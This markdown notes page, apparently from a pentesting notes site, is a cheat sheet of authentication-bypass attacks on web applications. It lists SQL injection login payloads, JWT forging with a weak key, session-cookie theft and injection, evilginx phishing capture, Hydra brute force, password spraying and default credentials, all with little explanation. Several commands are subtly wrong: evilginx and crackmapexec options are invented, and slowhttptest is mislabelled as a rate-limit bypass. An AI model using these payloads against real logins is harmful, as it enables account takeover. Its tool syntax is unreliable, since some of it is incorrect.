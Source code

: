 ```yaml
---
layout: notes
permalink: /notes/web/auth/
title: Web Application Authentication Bypass
---
```


# Web Application Authentication Bypass

## SQL Login Bypass
```bash
# Test SQL injection
admin' OR 1=1 --

# Use UNION
admin' UNION SELECT 1, 'password' --

# Blind SQLi with sleep
admin' AND SLEEP(5) --

# Automate with sqlmap
sqlmap -u http://example.com/login --data="user=admin&pass=test" --level=3
```

## Token Manipulation
```bash
# Decode JWT
jwt_tool <token>

# Modify JWT payload
echo '{"user":"admin"}' | base64 > payload.b64

# Sign with weak key
jwt -S HS256 -s "weakkey" -p payload.b64 -o newtoken.jwt

# Test signature bypass
curl -H "Authorization: Bearer <modified_token>" http://example.com
```

## Session Hijacking
```bash
# Steal session cookie
document.cookie

# Use Burp to capture

# Inject cookie
curl -b "session=stolen_cookie" http://example.com

# Automate with evilginx
evilginx -u http://example.com -o cookies.txt
```

## Brute Force
```bash
# Brute-force with Hydra
hydra -l admin -P wordlist.txt http://example.com/login -f

# Use Burp Intruder

# Password spraying
crackmapexec http <target> -u users.txt -p passwords.txt

# Rate-limit bypass
slowhttptest -c 1000 -H -g -o status_code -u http://example.com
```

## Other Techniques
```bash
# Weak Password Reset
curl "http://example.com/reset?token=1234&newpass=admin"

# CAPTCHA Bypass
curl -d "captcha=guess" http://example.com/login

# Default Credentials
admin:admin
admin:password

# Logic Flaws
curl "http://example.com/change?user=admin&newrole=admin"
```

## Tools
- sqlmap: ```sqlmap -u http://example.com```
- jwt_tool: ```jwt_tool <token>```
- Hydra: ```hydra -l <user> -P <wordlist> <target>```
- evilginx: ```evilginx -u http://example.com```
- CrackMapExec: ```crackmapexec http <target> -u <user> -p <pass>```
- OWASP ZAP: ```zap-cli -t http://example.com```
- slowhttptest: ```slowhttptest -u http://example.com```